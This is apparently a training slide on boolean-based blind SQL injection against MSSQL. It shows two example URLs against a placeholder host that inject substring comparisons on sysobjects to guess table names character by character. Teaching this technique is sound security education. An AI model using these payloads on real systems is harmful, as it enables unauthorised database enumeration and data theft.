

# 20 Questions
Now we play a game using the yes/no answers
We ask questions of the DB
Keep in mind the differences between RDBMS systems
Here we are targeting a MSSQL database
http://example.tgt/index.php?ID=1\
and substring ((select top 1 name from sysobjects where \
xtype='u'),1,1)>'m'
http://example.tgt/index.php?ID=1\
and substring ((select top 1 name from sysobjects where \
xtype='u'),1,1)<'s'